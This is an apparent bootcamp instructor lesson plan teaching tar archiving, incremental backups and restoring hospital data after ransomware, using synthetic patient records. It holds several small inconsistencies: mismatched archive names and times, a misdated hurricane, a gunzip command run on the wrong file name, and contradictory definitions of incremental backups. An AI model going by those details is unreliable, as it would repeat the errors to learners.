

# 5.1 Lesson Plan: Backups and Restoring Data with `tar`

### Overview

In this module, we will expand our coverage of Linux system administration by learning how to use Linux tools to **archive** data so it remains available in case of a natural disaster or cyber-attack, **schedule** data to ensure that backups are made hourly, daily, or monthly, and **monitor** log files to prevent and detect suspicious activity and keep systems running efficiently.

We will begin by covering the Linux `tar` utility. Today's class focuses on how to use backup and recovery to protect data integrity and availability.  Students will use `tar` to list and extract data, and create backups. They'll use this to guarantee availability and integrity by archiving users' data and system configuration files.

### Class Objectives

By the end of today's class, students will be able to:

- Identify and describe use cases for the three kinds of backups.

- Create (tar) an archive from existing files and directories.

- List and search the contents of an existing archive.

- Extract (untar) the contents of an archive.

- Describe and demonstrate two exploits for the `tar` command.

### Instructor Notes:

- In the event that students need more time in today's class, you can skip the final Instructor Do and Student Do on exploiting `tar`. If so, students are encouraged to complete this activity on their own. They can attend office hours for assistance or review. 

### Lab Environment

You will use your local Vagrant virtual machine for today's activities. Please note that instructors and students have different access credentials.

- Instructor access:
  - Username: `instructor`
  - Password: `instructor`
  
- Student access:
  - Username:`sysadmin`
  - Password: `cybersecurity`

### Class Slides 

The slides for today can be viewed on Google Drive here: [5.1 Slides](https://docs.google.com/presentation/d/1_Ylx5ytcD85pQj8bAtbGPiZwnwx7yEdrT9rmVQK26pg)

- To add slides to the student-facing repository, download the slides as a PDF by navigating to File > "Download as" and choose "PDF document." Then, add the PDF file to your class repository along with other necessary files.

- Note: Editing access is not available for this document. If you or your students wish to modify the slides, please create a copy by navigating to File > "Make a copy...".

### Time Tracker

The time tracker for today can be viewed on Google Drive here: [5.1 Time Tracker](https://docs.google.com/spreadsheets/d/1xDCMdDqffO6xt2Xj8uiErKmotRuzuox7iR_1rkreWQU/edit#gid=0)

- Note: Editing access is not available for this document. If you wish to modify the slides, please create a copy by navigating to File > "Make a copy...".

### Student Guide

Distribute the student-version of this lesson plan to class: [5.1 Student Guide](StudentGuide.md)

---

### 01. Instructor Do: Welcome and Overview  (0:10)

Welcome students to the second week of Linux and remind them that in the previous module, they learned about system configuration, file structures, and hardening against attacks.

In this module, we will continue to explore how system administrators use Linux tools to secure a system by:

- **Archiving** data to ensure it remains available in case of a natural disaster or cyber attack.

- **Scheduling** backups to ensure they are up to date and made either hourly, daily, or monthly.

- **Monitoring** log files to prevent and detect suspicious activity and keep systems running efficiently.

Explain that these skills are relevant for the following day-to-day system administrators’ tasks:

- Overseeing or conducting backup and recovery tasks.

- Determining how long to retain (keep) data and the frequency (how often) it is backed up.

- Monitoring and troubleshooting backups and restore issues.

- Providing security for compliance requirements.

#### Today: Archiving with `tar`

Explain that today’s lesson will focus on creating and managing archives using the `tar` utility.

- Students should understand how the topics in today's lesson are essential to promoting the availability of a system and data.

Emphasize that backups and data archiving are important to maintain compliance with regulations for IT security in industries such as finance and health:

- In finance, the common standard for data archiving is the **Sarbanes-Oxley Act** (SOX), which requires all business records and communication to be retained for five years.  

- The **Markets in Financial Instruments Directive** (MiFID II) requires the European Union's financial firms to retain and reproduce records of all activity from telephone conversations and electronic communications, including instant messages and social media interactions.

- In health, the most common standard is  **Health Insurance Portability and Accountability Act** (HIPAA), which requires healthcare providers to keep records for six years.

Note: If students want additional information on the above laws, send the following links:

- [Sarbanes-Oxley Act (SOX)](<https://www.mythics.com/about/blog/sarbanes-oxley-act-sox-compliance-requirements-for-it-security>)

- [Health Insurance Portability and Accountability Act (HIPAA)](<https://linfordco.com/blog/hipaas-record-retention-requirements/>)

- [Markets in Financial Instruments Directive 2004/39/EC (MiFID II)](<https://www.mirrorweb.com/mifid-ii-compliance>)

Answer any remaining questions before moving on to the first topic of the day.

### 02. Instructor Do: Creating and Restoring Backups with `tar`  (0:20)

Point out that cybersecurity professionals must ensure that data is always protected against threats of data loss and interruptions caused by attacks or natural disasters.

Send students the following links and briefly (a minute or two) highlight the following case studies:

- In 2019, attackers seized important government machines in [Baltimore, Maryland](<https://www.nytimes.com/2019/05/22/us/baltimore-ransomware.html>) during a ransomware attack.

- In 2019, Hurricane Michael caused massive flooding, destroying hundreds of homes, businesses, and strategic defense data at [Tyndall Air Force Base](<https://www.washingtonpost.com/national/hurricane-michael-tyndall-air-force-base-was-in-the-eye-of-the-storm-and-almost-every-structure-was-damaged/2018/10/23/26eca0b0-d6cb-11e8-aeb7-ddcad4a0a54e_story.html?utm_term=.9182d43bfb6f>).

Explain that system administrators **backup** data so that government facilities and businesses are able to quickly recover any lost data and get systems up and running quickly.

Cover the following about backups:

- A **backup** is a **saved version** of all the files in a hard drive at a given point in time.

- Think of it as saving every single file on your system, and copying it to a safe place, so if you lose any files on your system you can always get them back.

- Backups are generally done hourly or daily. This ensures that when an attack happens, data can be restored as close to the time of the incident as possible, resulting in little loss of data.

Explain that there are different types of backups: **full**, **incremental**, and **differential**.

A **full backup** creates a backup of the entire system.

- You would create a full backup if, for instance, you recently got a new computer for work and want to do an initial backup.

- Full backups allow for a more reliable restoration of a system. They also provide better storage management, as all the files are in one place.

- However, full backups are slow and require a large storage space capable of storing the entire system.

In addition to a full backup, administrators can create **backups of individual files and folders**.

- For example, an admin may create a backup containing only the `/home` directory, thus ensuring that users will always have access to their data, even if the rest of the machine is compromised.

-  **Incremental** and **differential** backups archive *only data that has changed* since the last full backup. They are fast and take up less disk space, but you'll need all backups in order to restore the full data.    

Emphasize why backup levels are important:

* Instead of deleting and reinstalling the whole OS, the backup level allows the user to "rewind time" and restore their computer to exactly the same state it was in before being corrupted.

#### Performing a Backup

Now that we understand the importance of backups, we’ll discuss how to actually perform one.     

The `tar` command, standing for _tape archive_, is a Linux utility that system administrators use to create a backup.

Explain the following about **archives**:

- An archive is a collection of files and directories.

- A backup is an archive used specifically to preserve information in the event of data loss.

- Archives created with `tar` are called **tarballs** and use the extension `.tar`.

- The file size of a tarball, in bytes, is equal to the sum of the file sizes of each of the files it contains. This is important, because it means that each and every `tar` backup of a hard drive takes up the same amount of space as all the files on the drive.

#### Creating an Archive

Next, explain that we'll cover how to “create” an archive.    

Tell students that the Systems Operations Center at [Tyndall Air Force Base](<https://www.washingtonpost.com/national/hurricane-michael-tyndall-air-force-base-was-in-the-eye-of-the-storm-and-almost-every-structure-was-damaged/2018/10/23/26eca0b0-d6cb-11e8-aeb7-ddcad4a0a54e_story.html?utm_term=.9182d43bfb6f>) likely backed up all system data with the approaching threat of Hurricane Michael.

For that example, they would create a full backup of all the log files in `/var/log` directory using the `tar` command as follows:

- `sudo tar cvf hurricane-backup-10-11-2018.tar /var/log`

Break down the command, using the general syntax of the command as displayed below:

- `tar [option(s)] [archive_name] [objects_to_archive]`

  -  `sudo` point out that because `/var/log` are system files, we'll need administrator rights in order to make a back up of them. It would compromise our security if anyone in the company was able to make backups of our system files. 

  - `tar` is the Linux command. We will always begin our backups with `tar`.

  - `c` , `v`, and `f` are [_short_](<http://linuxcommand.org/lc3_man_pages/tar1.html>) form options.

  - `c` stands for create. We will always need this option when creating an archive.

  - `v` stands for [_verbose_](<https://www.gnu.org/software/tar/manual/html_node/verbose-tutorial.html>). While not necessary to used when creating an archive, this option displays details about the results of running the `tar` command.  
      - It is a best practice to use this option to validate for errors. For example, that the file *permissions* and file *sizes* and file *dates* are archived properly.

  - `f` stands for [_use this archive file_](<https://www.gnu.org/software/tar/manual/html_node/file-tutorial.html#SEC14>). It is followed by the title of the archive. It also be written as `--file=archive_name`.  This option must be present when creating an archive.

  - `hurricane-backup-10-11-2018.tar` is the `archive_name` and indicates the title given to our archive. Note the `.tar` file extension.

  - `/var/log` are the _objects to archive_, indicating the files or directories we want to back up.


Restate the syntax for the command:

* `tar [option(s)] [archive_name] [objects_to_archive]`

Run the command:

- `sudo tar cf 2018-10-12-hurricane-backup.tar /var/log`

The files in the archive are not displayed to the same terminal screen in which the command is run. This would not be a good practice, since you cannot tell what was archived. Therefore, we will have to print this information.

- `tar` has two options that will print information about which files were archived:

  - `v`: verbose, which prints the name of every file archived.

  - `vv`: very verbose, which prints the full listing for each file, including the name, file permissions, owner, etc.

- If `tar` does not receive files or directories to archive, it outputs the following error message:

  ```
  tar: Cowardly refusing to create an empty archive
  Try 'tar --help' or 'tar --usage' for more information
  ```

Next run the command with the `v` option and display the following output:

- `sudo tar cvf 2018-10-12-hurricane-backup.tar /var/log`

    ```
    /var/log/fontconfig.log
    /var/log/kern.log.2.gz
    /var/log/wtmp
    /var/log/vboxadd-install.log
    ...
    ...
    ```

- This command displays the files that are being written to the archive as the command runs. However, it does not display a full listing.

Then, run the command using the `vv` option and display the following output:

- `sudo tar cvvf 2018-10-12-hurricane-backup.tar /var/log`

    ```
    -rw-r--r--  root/root      5784  2019-07-03  15:38   /var/log/fontconfig.log
    -rw-r-----  syslog/adm   141571  2019-07-1-  11:16   /var/log/kern.log.2.gz
    -rw-rw-r--  root/utmp     20352  2019-07-15  15:33   /var/log/wtmp
    -rw-r--r--  root/root       695  2019-07-05  21:09   /var/log/vboxadd-install.log
    ```

- Point out that this information is very important in determining what archive to use when restoring data after an attack.

#### Compressing archives with `gzip`

Explain that `gzip` is a command used to create a compressed tar archive, indicated with a `tar.gz` extension. 

- `gzip` compression is useful when disk space is an issue. 

- Additionally, moving smaller files sizes uses less bandwidth, making transfer times faster. 

Run the following command and explain that it will compress the archive with a `.gz` extension.

- `gzip 2018-10-12-hurricane-backup.tar`

Explain that `gunzip` will **unzip** an archive and remove the `.gz` extension, restoring the archive back to its original state as revealed in the following image. Run the following command:

- `gunzip 2018-10-12-hurricane-backup.tar`



#### Archiving Best Practices

Emphasize some of the best practices for maintaining security, privacy, and integrity when creating an archive. 

- Be sure archives are not writable by an untrusted user.

- Inspect all data, such as passwords, before writing to an archive, since this data will be copied to the archive.

- Pay attention to the diagnostic and exit status of `tar`.

Send students the following webpage for more information on archive security: 

- [GNU.org: 10.2 Tar Security](<https://www.gnu.org/software/tar/manual/html_section/tar_84.html#SEC176>)

Next we'll discuss how to extract and restore file data from backups using a Medical Center scenario.

#### Medical Center Scenario

In this section, we will use archive files to protect organizations from modern attacks.

Explain that medical centers and hospitals are large targets for cybercriminals. 

- In 2019 [Hackensack Meridian Health systems](https://www.app.com/story/news/health/2019/12/13/hackensack-meridian-ransom-hackers-cyber-attack-hospitals/2638701001/) were compromised by a ransomware attack. Attackers encrypted medical data of many patients in the hospital.

- The attackers offered to decrypt the data in exchange for payment, effectively ransoming the government's data. Unfortunately, in the case of Hackensack, the hospital had to pay.

In the following demonstration, we are going to do what the hospital should have done in preparation for potential cyber attacks.

- We'll respond to a ransomware attack that hit a hospital on the morning of May 11 2019. Among the affected systems were:
  - Doctors
  - Patients
  - Treatments

- After taking the infected systems offline, we will:   
  - Restore the operating system and applications using the full backup.
  - Restore email data using the full backup.

- Restoring the email data will require using the `tar` command in order to:
  - List the contents of the latest full backup to locate the email data.
  - Extract the email data from the archive to a directory on the new system.

#### Hospital Scenario Demo

1. Open a terminal window and explain that we'll now take a look into the directory that contains the `tar` file of the hospital's latest full backup.

    - Run `cd ~/Documents/epscript/treatments/backup/`

    - Run `ls -l 10May2019-235536-0700.tar`

      Point out that the date and time on the archive indicate that this backup was created the night before the attack.

2. Run the following command to list the files in the archive and display the following output:

    - `tar tvvf 10May2019-135536-0700.tar | less`

        ```
        drwxr-xr-x root/root         0 2019-05-09 17:29 16:29 backups/
        drwxr-xr-x root/root         0 2019-05-09 17:29 backups/neurology/
        -rwxr-xr-x root/root      9465 2019-05-09 17:29 backups/neurology/treatments.18.csv
        -rwxr-xr-x root/root      9761 2019-05-09 17:29 backups/neurology/treatments.16.csv        
        ...
        ...
        drwxr-xr-x root/root         0 2019-05-09 17:29 backups/oncology/
        -rwxr-xr-x root/root      9354 2019-05-09 17:29 backups/oncology/treatments.12.csv
        -rwxr-xr-x root/root      9070 2019-05-09 17:29 backups/oncology/treatments.8.csv
        ...
        ...
        drwxr-xr-x root/root         0 2019-05-09 17:29 backups/cardiology/
        -rwxr-xr-x root/root      9477 2019-05-09 17:29 backups/cardiology/treatments.5.csv
        -rwxr-xr-x root/root      9952 2019-05-09 17:29 backups/cardiology/treatments.7.csv
        ...
        ...
        ```

    - Break down the syntax of the command, and emphasize the following:

      - `t`: lists the contents of an archive.
      - `vv`: displays the full file specifications.
      - `f`: specifies the archive file to use.
      - `10May2019-235536-0700.tar`: the archive name.
      - `| less`: pipes the output of the command in pages to the terminal screen. The command displays the file permissions, size, and date/time information.

    - If `tar` cannot find the archive or file to list, it will output the following message:

      ```
      tar: <archive>: Not found
      tar: Exiting with failure due to previous errors
      ```

3. We need to extract the email files from the archive and place them in a new directory.  

  - Create a new directory to hold the restored email files:

      - `mkdir restored_emails`

  - Extract the email files from the archive:

    - `tar xvvf 10May2019-235536-0700.tar -C restored_emails --wildcards "*.csv"`   

  - Break down the syntax of the command:

    - `x`: extracts and writes the files to disk.
    - `vv`: displays the full file specification.
    - `f`: specifies the archive file to use.
    - `10May2019-235536-0700.tar`: the archive file.
    - `-C restored_emails`: the name of the directory where the `.csv` files will be placed.
    - `--wildcards "*.csv"`: only extracts the files with the extension **`.csv`**.

  - Run the following command to display the restored emails:

    - `ls -l restored_emails/backup/neurology/`

  - Emphasize that the original directory structure (`backup/neurology`) is retained in the archive and now can be seen on disk.  

Remind students that extracting files from a tar archive should be done with caution and that testing with the `t` option should be done first.

Emphasize the following:

  - Files archived with leading (`/`) slash will be restored to their absolute locations.

  - Files that were archived without leading (`/`) slashes will be restored under the current directory.

  - Files extracted from an untrusted archive should be extracted into an empty directory.

Ask students if they have any questions before proceeding with the first activity of the day.


### 03. Student Do: Creating and Restoring Backups with `tar` (0:25)

Explain the following to students:

- In this activity, you are a junior administrator at *Rezifp Pharma Inc.* In recent weeks, there have been a series of malware attacks and now the company is strengthening its backup activities.   

- In response to the malware attacks, your department has decided to create daily *full backups* of the files associated with the E-Prescription Treatment database that contain [(PII)](<https://www.lifelock.com/learn-identity-theft-resources-what-is-personally-identifiable-information.html>).

- A pharmacy technician notices that some files in the Patient database are missing and the team discovers that the wrong full backup was used.

- It is critical that the missing patient files are restored as soon as possible, so you will use the `tar `command to search for them in an archive.

- Once they are found, you will extract the files from the Patient database in the correct archive and place them in a directory for review.

Send students the following files:

- [Activity File: Creating and Restoring Backups with tar](Activities/03_Creating_Restoring_Backups/Unsolved/README.md)

### 04. Instructor Review: Creating and Restoring Backups with `tar` (0:10)

:bar_chart: Run a comprehension check poll before reviewing the activity. 

The goal of this activity was to create a *full backup* of the epscript directories and files, including file permissions, owner, size of file, and date and time information.  They verified the archive for errors after writing it and the output from the command was saved to a text file. In the second part of the activity, they located the correct archive to restore the patient directory and files

Completing this activity required the following steps:

- Creating the name of the tar archive using the YYYYMMDD ISO 8601 standard.

- Creating a full backup using the tar create option.

- Printing the full listing for each file, including the name, file permissions, and owner information.

- Verifying the archive after it was written to check for errors.

- Creating a file of the output of the `tar` command for later review by the SysOps team.

- Listing the contents of the archive to determine what it contains.

- Creating a directory to restore the patient directories and files. 

- Extracting only the patient directory and files to the directory for review before restoring the files to the E-Prescription Treatment system.

- **Bonus**: Using the `grep` command to search the archive for two patient names.

Explain that completing these steps will ensure that our archive has the correct data, no errors, and can be used in the event of a malware attack to restore the E-Prescription Treatment system.

Send students the following file:

- [Solution Guide: Creating and Restoring Backups using `tar`](Activities/03_Creating_Restoring_Backups/Solved/README.md)

#### Part 1 Walkthrough

1. First, we move to the `~/Documents/epscript` directory.

   - `cd ~/Documents/epscript/`  

2. List the directories and files located there:
   
   - Run `ls -l epscript`

   - Output should look similar to the following: 
  
     ```
     drwxr-xr-x  2   sysadmin  sysadmin  4096    Jul 16   14:02   doctors
     drwxr-xr-x  2   sysadmin  sysadmin  4096    Jul 16   14:02   patients
     drwxr-xr-x  2   sysadmin  sysadmin  4096    Jul 16   14:00   treatments
     ```  
      - Here we see three directories `doctors`, `patients`, and `treatments`.

   - Run `ls -l epscript/doctors/` to list the contents of the `doctor` directory and display the contents, which are `.csv` files. 


   - Output should read:

      ```bash
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:16   doctor10.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:12   doctor1.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:13   doctor2.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:15   doctor3.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:15   doctor4.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:15   doctor5.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:15   doctor6.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:15   doctor7.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:16   doctor8.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   14:16   doctor9.csv
      -rw-r--r--  1   sysadmin  sysadmin  75962   Jul 16   13:22   doctor.csv
      ```

   - List the contents of the `patient` and `treatment` directories and display the contents of the other `.csv` files.

      - Run `ls -l epscript/patients/` 

      - Run `ls -l epscript/treatments/`

3. The archive filename is created using the ISO 8601 standard.

    - Using the standard format of `[YYYYMMDD][filename].tar`, our archive filename is: `20190505epscript.tar`.

    - [ISO](<https://www.iso.org/home.html>) stands for International Organization for Standards. It publishes international standards such as the [ISO/IEC 27032:2012](<https://www.iso27001security.com/html/27032.html>) which is a standard for internet security issues.

    - Emphasize that [ISO 8601 for filenames](<https://wadegibson.com/why-you-should-use-the-iso-date-format/>) is important because:

      - The naming convention is recognized internationally.  
      
      - Files prefixed with an ISO date will automatically sort *oldest to newest* under the default alphabetical sort.

4. Write a `tar` command that creates an archive with the following characteristics:

    - The syntax is: `tar [option(s)] [archive_filename] [objects_to_archive]`
    
    - Command: `tar cvvWf 20190505epscript.tar epscript/ > 20190505epscript.txt`

    - Syntax breakdown:
      - `tar`: the name of the command.
      - `c`: creates the archive.
      - `vv`: **very verbose**, or verbosity level 2, prints the full file specification for each file in the archive.  
      - `W`: verifies the archive after writing it.
      - `f`: specifies the **filename** for our archive.
      -  `20190505epscript.tar`: the archive filename that we created following the ISO 8601 guidelines.
      - `epscript/*`: the directory that contains all of the files to archive. We use the asterisk `*` wildcard to denote that we want everything in this directory and all of its subdirectories.
      - `> 20190505epscript.txt`: saves the output of the command to the the `20190505epscript.txt` text file.

5. Using the `less` command, review the output of the `20190505epscript.txt` file:

    - Run `less 20190505epscript.txt`

    - Output should look similar to the following snippit:

      ```bash
      drwxr-xr-x  sysadmin/sysadmin   0       2019-07-16  15:11   epscript
      drwxr-xr-x  sysadmin/sysadmin   0       2019-07-16  15:24   epscript/treatment
      -rw-r--r--  sysadmin/sysadmin   192273  2019-07-16  15:24   epscript/treatment/treatments10.csv
      ```
    - **Note**: Notice that the entire directory structure remains intact as compared to the original directory structure.

#### Part 2 Walkthrough 

1. Move to and list the contents of the `~/Documents/epscript/backup` directory.

    - Run `cd ~/Documents/epscript/backup`

    - Run `ls -l`

    - Your output should look similar to this:

        ```
        -rw--r-r--  1   sysadmin  sysadmin  4341760    Jul 17   01:45   20190814epscript.tar
        ```

    - We'll use the `20190814epscript.tar` file to search for the patient information.


2. List the contents of the `20190814epscript.tar` and pipe the output to the screen.

   - Run: `tar tvvf 20190814epscript.tar | less`

   - Output should look similar to following:

     ```
     drwxr-xr-x  sysadmin/sysadmin   0       2019-07-16  15:11   epscript
     drwxr-xr-x  sysadmin/sysadmin   0       2019-07-16  15:24   epscript/treatment
     -rw-r--r--  sysadmin/sysadmin   192273  2019-07-16  15:24   epscript/treatment/treatments10.csv
     ```

3. Extract the patient files from the archive, test for errors, and save them in the `patient_search` directory. 

   - The general syntax of the command is: `tar [options][archive_name][option][option][save_directory][objects_to_archive]`

   - In the `~/Documents/epscript/backup` directory, make a new directory called `patient_search`.

     - Run  `sudo mkdir patient_search`

     - Run  `sudo tar xvvf 20190814epscript.tar -C patient_search/ epscript/patients`

   - Syntax breakdown:

      - `xvvf`: the options.
      - `20190814epscript.tar`: the archive name. 
      - `-C`: saves the indicated patient directory and its files. 
      - `patient_search/`: the indicated directory.
      - `epscript/patients`: the directory that contains the patient files.  We are extracting files from this directory in the `tar` archive.

4. Verify that the patient files were extracted to the `patient_search` directory:

   - Run  `ls -l patient_search/epscript/patients`

    - Your output should look similar to this:

      ```
      -rw-r--r-- 1 sysadmin sysadmin  12193 Aug 14  2019 patients.10.csv
      -rw-r--r-- 1 sysadmin sysadmin  12334 Aug 14  2019 patients.1.csv
      -rw-r--r-- 1 sysadmin sysadmin  12534 Aug 14  2019 patients.2.csv
      -rw-r--r-- 1 sysadmin sysadmin  12398 Aug 14  2019 patients.3.csv
      ```

5. Use `grep` to find patients file information located in the archive of Mark Lopez and Megan Patel. 
    
    Note: It is generally best practice to look inside the archive, prior to restoring data, in order to ensure that the files you are looking for are actually there. This step would usually precede Step 3. 

   - Perform a search within the `~/Documents/epscript` directory for **Mark Lopez** patient records:

      - Move into the directory: `cd ~/Documents/  epscript`  

     - Ensure archive has been extracted for viewing: `tar xvf 20190814epscript.tar`

     - Search: `grep -R "Mark,Lopez" epscript/`   

   - The output should look similar to the following:

      ```
      809,Mark,Lopez,male,O,31,577.511.1054x23935,jeffrey93@jones.net,model,"673 Schultz Spur Apt. 244
      809,Mark,Lopez,male,O,31,577.511.1054x23935,jeffrey93@jones.net,model,"673 Schultz Spur Apt. 244
      ```

   - Within the same directory, perform a search for **Megan Patel** patient records as follows:

     - Run `grep -R "Megan,Patel" epscript/`   

     - The output should look similar to following:

        ```
        699,Megan,Patel,female,AB,43,001-684-391-7956,pjohnson@gmail.com,develop,"53082 Lopez IslandChavezchester, CT 11475"
        699,Megan,Patel,female,AB,43,001-684-391-7956,pjohnson@gmail.com,develop,"53082 Lopez Island
        ```

Ask if there are any questions before proceeding.


### 05. Instructor Do: Incremental Backups with `tar` (0:15)

So far, we've been creating full backups. While full backups ensure the availability and integrity of a system, there are some drawbacks to using them.

- The file sizes for full backups are very large, because they include everything on a system.

- Depending on the size of the file system, doing a full backup takes a very long time.

This is where **incremental backups** come into play. Cover the following:

- Incremental backups are done after a full backup has been performed on a system.

- Incremental backups capture only what has changed since the last incremental backup. This makes incremental backups smaller than full backups.

Incremental backups store a list of which files have changed in a snapshot file.

- The snapshot file is created when the administrator creates the initial level 0 incremental backup. Every time an incremental backup is done, a new snapshot file is created.

- This snapshot file contains a record of what the system looks like at the moment in time it is created.

- Consider the frequency of incremental backups (e.g., hourly or daily). Making incremental backups hourly ensures that each backup is small and restores (relatively) quickly, with minimum loss of data after an attack.

Emphasize that there are tradeoffs to using incremental backups:

- Restoring is slower because you must restore the latest full backup, and then all the incrementals.

- The SysOps team usually schedules incremental backups frequently, so the restore time is faster.

- There may be loss of data if one of the backups is corrupted. For example, if we cannot read the backup done at a certain time or on a certain day.

- This is why it's so important to verify an archive is created with no errors by using the `tar` **"W"** option.

#### Creating the Incremental Backup

In this section, we will explain how to use `tar` in order to create incremental backups:

- An [incremental backup](<https://www.gnu.org/software/tar/manual/html_node/Incremental-Dumps.html>) is a special form of a `tar` archive.  

- `tar` stores additional metadata or information so that the exact state of the file system can be restored when extracting the archive.

- The additional information includes which files have been changed, added, or deleted since the last backup, so that the next incremental backup will contain only modified files.

- The additional information is stored in a snapshot file.

Snapshot files have the extension `.snar`, standing for snapshot tar.

  - For example: `emerg_backup.snar`

  - The snapshot file in the current version of `tar` is a binary file.  [Read more about the format of snapshot files here](<https://www.gnu.org/software/tar/manual/html_node/Snapshot-Files.html>).


Cover how to create an incremental backup with the `tar` command.       

- Type out the following command and explain that this requires two new flags in addition to the ones they are already familiar with:

  - `$ tar cvvWf emerg_back_sun.tar --listed-incremental=emerg_backup.snar --level=0 emergency`

- Breakdown the syntax:

    - `--listed-incremental=emerg_backup.snar`: This option tells `tar` that the backup will be part of a series of incremental backups. It also specifies that information about files added, changed, or removed should be stored in a snapshot file called `emerg_backup.snar`.

    - `--level=0`: This option tells `tar` that this backup will be the very first backup in the series. In other words, this is the full backup and starting point that will be used as the basis for all later incremental backups.

    - It is also worth noting that this these options are spelled out and preceded by `--`.  This format is called the [long form](<http://linuxcommand.org/lc3_man_pages/tar1.html>). Incremental commands typically use this syntax.

Emphasize that, because this is the first backup in the series, it is both a full backup and an incremental backup. This is because the first backup in a series of incrementals is basically a full backup, also known as a level 0 back up.

- Every succeeding backup will be much smaller than this one.

- When this backup is created, the snapshot file will simply contain `Y` for every file in the archive.

Stop and see if there are any questions before proceeding to the next section.

#### Incremental Backups Demo Setup

We will demonstrate incremental backups using the following scenario: 

- A hospital's system operations staff performs a full backup of all the data in the emergency database on Sunday.

- On Monday, the staff runs an incremental backup which stores all changes made on Monday. This backup is smaller than the full backup.

- On Tuesday, an incremental backup archives only the changes made on Tuesday to the emergency database.

- The hospital is hit with a ransomware attack on Wednesday and all the data in the emergency database is encrypted.

- Fortunately, since the hospital created full and incremental backups, the files in the emergency database are easy to restore.

Completing this activity wil require the following steps:

- Creating a full (level 0) backup of the emergency directory and a snapshot file.

- Displaying the contents of the level 0 backup that would have been created on Sunday.

- Creating the incremental backups that would have been generated on Monday and Tuesday.

- Removing the emergency directory to mimic the ransomware attack on Wednesday.

- Finally, restore the emergency directory by first restoring the full backup taken on Sunday, restoring the incremental backup taken on Monday, and restoring the second incremental backup taken on Tuesday.  

#### Incremental Back Up Demo

1. Start in the `~/Documents/epscript` directory. List the contents of the simulated `emergency` directory for the hospital. Two directories are located there: `admit` and `discharge`.

   - Run `ls -l emergency`
      ```
      drwxr-xr-x  2   instructor  instructor  4096    Jul 4   03:28   admit
      drwxr-xr-x  2   instructor  instructor  4096    Jul 3   22:34   discharge
      ```

2. List the contents of the `admit` and `discharge` directories and display the output.

    - Run `ls -l admit discharge`

      ```
      admit:
      total 16
      -rw-r--r--  1   instructor  instructor  20  Jul 3   22:34   file1
      -rw-r--r--  1   instructor  instructor   9  Jul 4   02:55   file3
      -rw-r--r--  1   instructor  instructor  13  Jul 4   03:26   file4
      -rw-r--r--  1   instructor  instructor  13  Jul 3   03:28   file5

      discharge:
      total 4
      -rw-r--r--  1   instructor  instructor  19  Jul 3   22:34   file2
      ```


3. Run a command to simulate the level 0 backup on Sunday.:

    - Review the tar syntax: `tar [options] [archive_name] --incremental=[snapshot file name] --level=0 [objects_to_archive]`  


    - Run: `cd ..` to return to the `epscript` directory.

   - Run: `tar cvvWf emerg_back_sun.tar --listed-incremental=emerg_backup.snar --level=0 emergency`

      - Thi command creates a level 0 full backup in the file `emerg_back_sun.tar`.

      - It also creates a snapshot file called `emerg_backup.snar` that will be used to store the additional information such as which files have been changed, added, or deleted.  This file is in binary format.

    - `tar` indicates appending data to the file that indicated the following:

        - `Y` indicates that the file is contained in the archive.

        - `N` indicates that the file was present in the directory at the time the archive was made, yet it was not added to the archive because it has not changed since the last backup.

        - `D` indicates the file is a directory.  

    - Review the other options students have used so far:

        - `c`: creates an archive.
        - `vv`: displays a full file specification.

        - `W`: verifies the archive after creating it. Remind student that they used this option when creating a full backup. It should _always_ be used.

        - `f`: indicates archive file_.  This option must be present.

        - `emerg_back_sun.tar`: the archive filename.  This is the full backup that is completed every Sunday.

        -  `emergency`: the directory we want to backup.

4. Display the files that were created from the command.   

    - Run the `ls command` on the `epscript` directory:

        - `ls -l`

    - The output should resemble:

        ```
        emerg_back_sun.tar - this is the `full` or `level 0` backup file
        emerg_backup.snar - this is the `snapshot` file
        ```

    - Pause and see if there are any question before proceeding.


5. As a best practice, after creating the snapshot file, system administrators will use the `tar list` command to check the files that are in the `emerg_back_sun.tar` file.

    - Run the following command from inside the `epscript` directory:

       - `tar tvvf emerg_back_sun.tar --incremental`

    - Break down the command syntax:

        - `t`: lists the files from the archive to the terminal screen.
        - `vv`: displays a full file specification.
        - `f`: indicates the file.
        - `emerg_back_sun.tar`: the archive to use.
        - `--incremental`: indicates an incremental backup.
   

    - Output should look like:

        ```
        drwxr-xr-x instructor/instructor        45 2019-12-28 17:30 emergency/admit/
        Y file1.txt
        Y file2.txt
        Y file3.txt
        Y file4.txt

        drwxr-xr-x instructor/instructor        12 2019-12-28 17:35 emergency/discharge/
        Y file2.txt

        -rwxr-xr-x instructor/instructor     10244 2019-12-28 17:35 emergency/.DS_Store
        -rwxr-xr-x instructor/instructor         0 2019-12-20 13:05 emergency/.gitkeep
        -rw-r--r-- instructor/instructor     10240 2019-12-28 17:37 emergency/emerg_back_sun.tar
        -rw-r--r-- instructor/instructor        36 2019-12-28 17:37 emergency/emerg_backup.snar
        -rw-r--r-- instructor/instructor         0 2019-12-28 17:35 emergency/
        -rwxr-xr-x instructor/instructor       689 2019-12-28 17:30 emergency/admit/file1.txt
        -rwxr-xr-x instructor/instructor       341 2019-12-28 17:30 emergency/admit/file2.txt
        -rwxr-xr-x instructor/instructor       661 2019-12-28 17:30 emergency/admit/file3.txt
        -rwxr-xr-x instructor/instructor       840 2019-12-28 17:30 emergency/admit/file4.txt
        -rwxr-xr-x instructor/instructor       341 2019-12-28 17:35 emergency/discharge/file2.txt

        drwxr-xr-x instructor/instructor        12 2019-12-28 17:35 emergency/discharge/
        Y file2.txt

        -rwxr-xr-x instructor/instructor     10244 2019-12-28 17:35 emergency/.DS_Store
